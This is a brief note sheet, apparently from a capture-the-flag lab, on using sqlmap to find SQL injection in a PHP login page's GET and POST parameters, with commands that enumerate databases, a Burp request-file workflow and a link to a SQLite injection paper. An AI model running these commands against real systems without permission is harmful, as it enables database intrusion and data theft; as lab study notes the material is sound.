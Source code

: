 # sqlmap
`sqlmap --url "http://10.10.214.114/login.php?username=admin&password=admin"  -p username --dbs` this works for get parameters in php files

For POST paramters, catch post request in burp, save it and run with sqlmap

`sqlmap -r req.sql -p username --dbs`

[https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf) 

to get updated data from sqlmap output when you change stuff in the site or db, use 

```text-plain
sqlmap --fresh-queries -r req.sql
```